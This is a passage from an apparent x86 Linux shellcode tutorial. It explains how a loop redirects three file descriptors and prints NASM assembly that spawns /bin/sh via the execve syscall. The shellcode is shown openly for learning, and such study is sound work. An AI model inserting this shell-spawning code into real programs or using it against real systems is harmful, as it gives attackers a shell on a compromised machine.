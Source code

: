 ![gdb ecx -1](./images/14/2021-10-16_13-34.png){width="80%"}       

As you can see, after third `dec ecx` it contains `0xffffffff` which is equal -1 and the `SF` got set and the shellcode flow continues.     

In result, all three output are redirected :)       

### launch the shell with execve

This part of code are similar to the example from the first part, but again with a small change:
```nasm
; spawn /bin/sh using execve
; int execve(const char *filename, 
; char *const argv[],char *const envp[]);
mov  al, 0x0b    ; syscall: sys_execve = 11 (mov eax, 11)
inc  ecx         ; argv=0
mov  edx, ecx    ; envp=0
push edx         ; terminating NULL
push 0x68732f2f	 ; "hs//"
push 0x6e69622f	 ; "nib/"
mov  ebx, esp    ; save pointer to filename
int  0x80        ; syscall: exec sys_execve
```

As you can see, we need to push the terminating `NULL` for the `/bin//sh` string seperately onto the stack, because there isn't already one to use.    

So we are done.       
